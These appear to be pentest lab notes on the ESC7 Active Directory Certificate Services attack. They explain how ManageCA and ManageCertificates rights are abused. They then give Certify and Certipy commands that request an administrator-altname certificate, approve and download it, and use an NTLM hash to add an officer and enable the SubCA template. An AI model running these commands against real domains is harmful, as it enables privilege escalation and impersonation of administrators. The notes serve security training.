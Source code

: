 ## Vulnerable Certificate Authority Access Control Roles (`ManageCA` and `ManageCertificate`) ##

#### What's running under the hood ####
- A certificate authority itself has a set of permissions that secure various **CA actions**.
- The two main rights here are the `ManageCA` right and the `ManageCertificates` right, which translate to the “CA administrator” and “Certificate Manager”.

#### What the attack is about ####
- `ManageCA`: allows a user to change the CA’s configuration to turn on SAN (Subject Alternative Name) to all the templates enabling the `EDITF_ATTRIBUTESUBJECTALTNAME2` attribute allowing for the [[ESC6]] attack path.
- `ManageCertificates`: allows a user to issue certificates that are pending approval. We can approve such certificates using the ManageCA rights.
- If the attacker does not have the `ManageCertificates` right, he/she can just add themselves as a new officer using existing `ManageCA` rights, since an officer is a user with the `ManageCertificates` rights.
- If the Certificate-based Authentication (CBA) patches are installed, the normal [[ESC6]] attack using `ManageCA` rights can’t be used (because of strong certificate mapping checks).

### Enumeration ###
1. **Certify**
`PS C:\ADCS\Auditor> .\Certify.exe cas`

### Exploitation ###
#### 1. ESC7.1 - Approve a failed Certificate Request ####
**Certify**
1. Create a Failed Request
`PS C:\ADCS\Auditor> Certify.exe request /ca:CB-CA.CB.CORP\CB-CA /template:subCA /altname:administrator /domain:internalcb.corp /sidextension:S-1-5-21-2177854049-4204292666-1463338204-500`
2. Approve the Failed Request
`PS C:\ADCS\Auditor> Certify-esc7.exe issue /ca:CB-CA.CB.CORP\CB-CA /id:58`
3. Download Approved Request
`PS C:\ADCS\Auditor> Certify-esc7.exe download /ca:CB-CA.CB.CORP\CB-CA /id:58`

**Certipy**
- If we don’t have the `ManageCertificates` right, the attacker can add themselves as a new officer using existing `ManageCA` rights.
```
┌──(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CESP-ADCS]
└─# certipy ca -u internaluser@internalcb.corp -hashes 'aad3b435b51404eeaad3b435b51404ee:6ca67841f08c8c73baf4d93ca16e7760' -ca 'CB-CA' -dc-ip 172.16.203.1 -target cb-ca.cb.corp -add-officer internaluser
```

- If the SubCA template too isn't enabled, the attacker can enable it using existing `ManageCA` access rights.
```
┌──(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CESP-ADCS]
└─# certipy ca -u internaluser@internalcb.corp -hashes 'aad3b435b51404eeaad3b435b51404ee:6ca67841f08c8c73baf4d93ca16e7760' -ca 'CB-CA' -dc-ip 172.16.203.1 -target cb-ca.cb.corp -enable-template 'SubCA'
```
#### 2. ESC7.1 - AbusE CRL Distribution Points (CDPs) and usE them to deploy SYSTEM webshells to CA servers respectively ####